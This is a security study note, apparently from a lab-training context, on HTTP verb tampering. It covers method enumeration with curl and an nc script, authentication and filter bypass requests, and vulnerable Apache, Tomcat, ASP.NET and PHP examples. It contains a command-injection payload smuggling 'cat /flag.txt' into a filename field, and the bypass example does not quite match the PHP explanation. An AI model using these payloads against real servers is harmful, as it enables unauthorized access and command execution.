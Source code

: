 ### Content
* [Overview](#overview)
* [HTTP Verbs](#http-verbs)
* [Check allowed methods by a server](#check-allowed-methods-by-a-server)
* [Scenarios](#scenarios)
	* [Bypassing Basic Authentication](#bypassing-basic-authentication)
	* [Bypassing Security Filters](#bypassing-security-filters)
* [Verb Tampering Prevention](#verb-tampering-prevention)
	* [Insecure Configuration](#insecure-configuration)
	* [Insecure Coding](#insecure-coding)
---
## Overview
[HTTP Verb Tampering](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/03-Testing_for_HTTP_Verb_Tampering)
- **Cause**: HTTP Verb Tampering occurs when an application has inconsistent or incomplete access control checks across different HTTP methods. For example, a resource may have proper authorization checks for `POST` requests but not for `PUT` or `DELETE` requests.
- **Exploitation**: Attackers send requests with unexpected or modified HTTP verbs (e.g., using `PUT` or `DELETE` instead of `GET` or `POST`) to interact with resources in unintended ways. For example, an attacker might change a `GET` request to `DELETE` to attempt deleting data or bypass access restrictions.
- **Impact**:
    - Unauthorized Data Modification
    - Privilege Escalation
    - Information Disclosure
- **Prevention**:
    - Consistent Access Control: Ensure that authorization checks are applied uniformly across all HTTP methods for each resource.
    - Allow Only Required Verbs: Restrict endpoints to allow only the HTTP verbs necessary for their functionality.
    - Server-Side Validation: Validate requests server-side based on user roles and permissions, regardless of HTTP verb.
---
## HTTP Verbs

| Method                                                                         | Description                                                                                                |
| ------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------- |
| [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET)         | Requests a representation of the specified resource                                                        |
| [`HEAD`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD)       | Asks for a response identical to a `GET` request, but without a response body                              |
| [`OPTIONS`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS) | Shows different options accepted by a web server, like accepted HTTP verbs                                 |
| [`TRACE`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/TRACE)     | Performs a message loop-back test along the path to the target resource                                    |
| [`PUT`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/PUT)         | Writes the request payload to the specified location                                                       |
| [`DELETE`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/DELETE)   | Deletes the specified resource                                                                             |
| [`POST`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST)       | Submits an entity to the specified resource, often causing a change in state or side effects on the server |
| [`PATCH`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/PATCH)     | Applies partial modifications to a resource                                                                |
| [`CONNECT`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/CONNECT) | Establishes a tunnel to the server identified by the target resource                                       |

---
## Check allowed methods by a server
``` bash
$ curl -i -X OPTIONS http://SERVER_IP:PORT/

HTTP/1.1 200 OK
Date: 
Server: Apache/2.4.41 (Ubuntu)
Allow: POST,OPTIONS,HEAD,GET
Content-Length: 0
Content-Type: httpd/unix-directory
```
Script for automation:
``` bash
#!/bin/bash
for webservmethod in GET POST PUT TRACE CONNECT OPTIONS PROPFIND;
do
printf "$webservmethod " ;
printf "$webservmethod / HTTP/1.1\nHost: $1\n\n" | nc -q 1 $1 80 | grep "HTTP/1.1"
done
```
Usage:
``` bash
$ ./script 123.1.3.4
GET HTTP/1.1 200 OK
POST HTTP/1.1 200 OK
PUT HTTP/1.1 200 OK
TRACE HTTP/1.1 200 OK
CONNECT HTTP/1.1 400 Bad Request
OPTIONS HTTP/1.1 200 OK
PROPFIND HTTP/1.1 200 OK
```

---
## Scenarios
### Bypassing Basic Authentication
* `401 Unauthorized`
``` HTTP
GET /admin/reset.php? HTTP/1.1
```
* `Accepted`
``` HTTP
HEAD /admin/reset.php? HTTP/1.1
```
### Bypassing Security Filters
* Before HTTP verb tampering
``` HTTP
GET /index.php?filename=file%3b+cat+/flag.txt+ HTTP/1.1
....[SNIP]
```
Results on response:
``` HTML
h4><a href='test'>test</a></h4></li></ul>Malicious Request Denied!</ul>
```
* After HTTP verb tampering
``` HTTP
POST /index.php HTTP/1.1
...[SNIP]
filename=file%3b+cat+/flag.txt+
```
Result on response:
``` HTML
<h4><a href='test'>test</a></h4></li></ul>HTB{b3_v3rb_c0n51573n7}</ul>
```
---
## Verb Tampering Prevention
### Insecure Configuration
* `Apache` Vulnerable configurations.
 Located in the site configuration file (e.g. `000-default.conf`), or in a `.htaccess`.
``` XML
<Directory "/var/www/html/admin">
    AuthType Basic
    AuthName "Admin Panel"
    AuthUserFile /etc/apache2/.htpasswd
    <Limit GET>
        Require valid-user
    </Limit>
</Directory>
```
the `Require valid-user` setting will only apply to `GET` requests, leaving the page accessible through other methods.
* `Tomcat` Vulnerable configurations.
  Located in the `web.xml` file for a certain Java web application.
``` XML
<security-constraint>
    <web-resource-collection>
        <url-pattern>/admin/*</url-pattern>
        <http-method>GET</http-method>
    </web-resource-collection>
    <auth-constraint>
        <role-name>admin</role-name>
    </auth-constraint>
</security-constraint>
```
* `ASP.NET` Vulnerable configurations.
  Located in the `web.config` file of a web application.
``` XML
<system.web>
    <authorization>
        <allow verbs="GET" roles="admin">
            <deny verbs="GET" users="*">
        </deny>
        </allow>
    </authorization>
</system.web>
```
* If we want to specify a single method, we can use safe keywords:
	* `LimitExcept` in Apache 
	* `http-method-omission` in Tomcat
	* `add`/`remove` in ASP.NET
* We should generally `consider disabling/denying all HEAD requests` unless specifically required by the web application.
### Insecure Coding
Infected code
``` PHP
if (isset($_REQUEST['filename'])) {
    if (!preg_match('/[^A-Za-z0-9. _-]/', $_POST['filename'])) {
        system("touch " . $_REQUEST['filename']);
    } else {
        echo "Malicious Request Denied!";
    }
}
```
* The code checks `$_REQUEST['filename']` but validates `$_POST['filename']`. An attacker can bypass the validation by sending the malicious input through `$_GET`.
* The fix would be to consistently use only `$_POST` for both validation and usage
---